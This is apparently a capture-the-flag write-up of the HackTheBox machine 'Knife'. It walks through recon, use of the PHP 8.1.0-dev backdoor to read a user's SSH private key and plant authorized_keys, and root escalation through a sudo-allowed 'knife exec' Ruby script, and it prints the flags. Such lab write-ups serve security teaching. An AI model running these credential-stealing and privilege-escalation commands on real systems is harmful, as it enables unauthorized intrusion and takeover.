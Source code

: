 Title:HTB: Knife
Date: 08-29-2021 10:30
category:security
tags:security, boot2root, HTB, linux, php, chef
meta:security, boot2root, HTB, linux, php, chef

<img class="align-left" src="/media/2021.08/knife_card.png" alt="Knife card" width="262">

This is a writeup about a retired HacktheBox machine:
[Knife](https://www.hackthebox.com/home/machines/profile/347) published on
May 22 2021 by
[MrKN16H](https://www.hackthebox.com/home/users/profile/98767)
This box is classified as an easy machine. This box implies a PHP dev backdoor
and a misconfigured `sudo` permission for `knife` a
[chef](https://docs.chef.io/) utility.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 80 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Tue May 25 12:12:19 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.151.250
    Nmap scan report for 10.129.151.250
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    <SNIP>

## Web

On the port 80 there is a simple website with no real content. Running `nikto`
on it show that the PHP version used is 8.1.0-dev.

    :::text
    └─$ nikto -h http://10.129.151.250/
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.129.151.250
    + Target Hostname:    10.129.151.250
    + Target Port:        80
    + Start Time:         2021-05-25 12:15:53 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.41 (Ubuntu)
    + Retrieved x-powered-by header: PHP/8.1.0-dev
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.

This specific 8.1.0-dev PHP version is vulnerable to a [backdoor RCE](https://packetstormsecurity.com/files/162749/php_8.1.0-dev.py.txt)

Using the exploit script we can directly execute command on the system. A few
enumeration show that we are running command as `james` and we can grab his SSH
private key.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa' > id_rsa`

A quick edit allows us remove the "result" from the python script then we use
`chmod 600` to fix the SSH key right and avoid the permission warning. Then we
add the key to the `authorized_keys` file still using the PHP backdoor.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa.pub > /home/james/.ssh/authorized_keys'`

We can then connect as `james` on the box and grab the user flag.

    :::text
    └─$ ssh james@10.129.151.250 -i id_rsa
    <SNIP>
    james@knife:~$ cat user.txt
    39169b04d1705adad09a0ba6aafe5363

# Root

We look at our permission on the box and found that we can run `/usr/bin/knife`
on the box. This is a symlink to a ruby script used by
[chef](https://docs.chef.io/).

    :::text
    james@knife:~$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife

Look at the [Knife documentation](https://docs.chef.io/workstation/knife_exec/)
we found that `knife exec` can execute ruby scripts. We execute the `id` command
to validate that we are running as root and then create the `.ssh` folder and
add james' SSH key to the `authorized_keys`.

    :::text
    james@knife:~$ cat h.rb
    puts "Hello World"
    system "id"
    system "mkdir -p /root/.ssh/"
    system "cp /home/james/.ssh/authorized_keys /root/.ssh/"

    james@knife:~$ sudo /usr/bin/knife exec h.rb -VVV
    Hello World
    uid=0(root) gid=0(root) groups=0(root)

We can then connect as root on the box (either from our kali or directly from the box)
and grab the root flag.

    :::text
    └─$ ssh root@10.129.151.250 -i id_rsa
    <SNIP>
    root@knife:~# cat root.txt
    9c158f53231321d8fdf47e3f431b0a77

# Wrapping up

A really easy box perfect for new comers.
